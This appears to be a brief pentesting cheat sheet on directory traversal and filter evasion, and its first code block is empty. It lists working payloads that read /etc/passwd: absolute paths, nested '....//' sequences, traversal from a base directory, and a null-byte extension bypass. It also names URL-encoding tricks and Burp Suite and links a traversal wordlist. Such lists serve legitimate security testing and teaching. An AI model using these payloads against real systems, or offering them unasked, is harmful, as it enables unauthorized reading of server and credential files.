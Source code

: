 --- ---

<h2>Directory Traversal Injection Technique & Evasion</h2>

- Common
```

```

- Bypass
```
#Use an absolute path
filename=/etc/passwd

#Use nested traversal
....// or
....\/

#Utilize URL Encoding
- 16-bit
- Double URL
- UTF-8

#Burp Suite Professional
	§ Contains encoded path traversal sequences

#Start with the base file and traverse from there
filename=/var/www/images/../../../etc/passwd

#Bypass the requirement to end with a file extension by using a null byte
filename=../../../etc/passwd%00.png
```

- Wordlists ---> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/directory_traversal.txt
